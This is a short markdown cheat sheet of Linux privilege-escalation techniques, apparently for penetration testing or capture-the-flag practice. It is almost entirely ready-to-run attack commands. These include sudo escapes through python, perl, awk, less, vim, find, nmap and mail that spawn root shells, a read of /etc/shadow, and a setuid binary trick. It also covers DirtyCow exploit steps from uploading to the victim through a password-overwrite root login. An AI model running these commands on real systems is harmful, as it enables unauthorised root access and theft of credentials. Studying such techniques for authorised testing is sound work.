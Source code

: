# Linux Privesc

## Sudoers - Privesc

#### Exhaustive list
https://gtfobins.github.io/

```
➤ Python
sudo -u root /usr/bin/python
>>> from subprocess import call
>>> call(['/bin/bash'])

➤ Perl
sudo -u root /usr/bin/perl -e ‘`/bin/bash`’

➤ CP + Chmod
sudo -u root /bin/cp exploit exploit
sudo -u root /bin/chmod +xs exploit
./exploit

➤ Awk
awk 'BEGIN {system("/bin/bash")}'

➤ Less
• Solution 1 - read a file
sudo -u root /usr/bin/less /etc/shadow
 
• Solution 2 - create a file
sudo -u root /usr/bin/less 
then insert the following command :
!/bin/bash

➤ Vim
sudo -u victim /usr/bin/vim
then write the following command (same way to quit vim :!q):
:!/bin/bash

➤ Find
sudo -u root /usr/bin/find /bin -name "bash" -exec {} \;

➤ Bash
sudo -u root /bin/bash

➤ Nmap
sudo -u nmap –interactive
nmap>!bash
or
nmap>!sh

➤ Mail
sudo mail --exec='!/bin/bash'
```

## Crontab - Privesc

## DirtyCow

https://dirtycow.ninja/
https://github.com/FireFart/dirtycow/blob/master/dirty.c


```
➤ 1. Upload the exploit on the victim

➤ 2. Compile the exploit
gcc -pthread dirty.c -O dirty -lcrypt
chmod +x dirty

➤ 3. exploit it
./dirty
Please enter the new password: lexiswashere

➤ Privesc
su firefart
Password: lexiswashere

Note: if the 'su : must be run from a terminal' error appear, upgrade tty 
python -c 'import pty; pty.spawn("/bin/sh")'
```
